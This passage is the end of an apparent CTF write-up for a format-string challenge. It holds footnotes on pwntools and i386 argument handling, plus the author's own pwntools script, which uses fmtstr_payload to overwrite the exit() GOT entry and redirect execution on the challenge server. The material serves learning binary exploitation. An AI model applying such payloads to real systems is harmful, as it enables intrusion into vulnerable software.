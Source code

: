 ## Footnotes
1. There are inevitably errors _somewhere_ in my interpretation of the program. What matters is that you get the important parts right.
2. This is intentionally simplified --- don't @ me.
3. In i386. x86-64 programs will take arguments off the register first, and other architectures will further baffle with their surprises.
4. Two things about this function that may be confusing:
   * If you've never touched pwntools, you probably have no idea what `sendlineafter()` or `pack()` is. **Read the pwntools documentation**, seasoned pwners don't do that enough, and you should start out on the right path.
   * `report_ID=[1]` is a nice (read: horrifying) python hack that I'm using here to keep a variable that is
       1. stored between function calls, and
       2. bounded (local) to the function itself
   * Also, if you're stuck in python2, you may be confused by the [type hints](https://www.python.org/dev/peps/pep-0483/) present in the code. Please move on!
5. Not so easy if the challenge organisers run gcc with `-s`. Watch out for that in other CTFs.
6. The bithacks here are to grab the lowest (&0xff) and the second lowest (&0xff00 >> 8) bytes respectively.
7. Instead of `r.interactive()` (which most writeups do), the python script terminates with `r.recvuntil('}')` because `unknownfunction()` itself actually calls `exit()`, causing an infinite loop that will cause pwntools to become non-responsive.

## An extra note
I only wrote `write_byte()` as a way of explaining how `printf()` works. After you learn the ropes, you should **never, ever** re-write another format string handling function, because `printf()` exploit helpers are already [packaged along](http://docs.pwntools.com/en/stable/fmtstr.html) in pwntools. I even made [an extended version of their format string library](https://github.com/152334H/pwnscripts), along with other automated functions I use for pwnables. 

During the CTF, my code was a lot dirtier, and I abused `fmtstr_payload()` instead of reinventing the wheel as above.
```python
from pwnscripts import *
context.binary = 'beta_reporting'
def printf(s,name):
    r = remote('yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg', 30121)
    r.sendlineafter('choice: \n', '1')
    r.sendlineafter('\n', s)
    r.sendlineafter('choice: \n', '2')
    r.sendlineafter('name: \n', name)
    r.sendlineafter('menu: \n', '1')
    return r
offset = 8
payload = fmtstr_payload(2, {context.binary.got['exit']: context.binary.symbols['unknownfunction']})
r = printf(payload[:36], payload[36:])
r.sendlineafter('menu: \n', '0')
r.recvuntil('choice: \n')
r.sendline('4')
r.recvuntil('choice: \n')
r.sendline('5')
r.interactive()
```
This code makes sense if you've done a lot of `printf()` problems before, but would be totally nonsensical to a beginner. I'm including it here for the sake of it.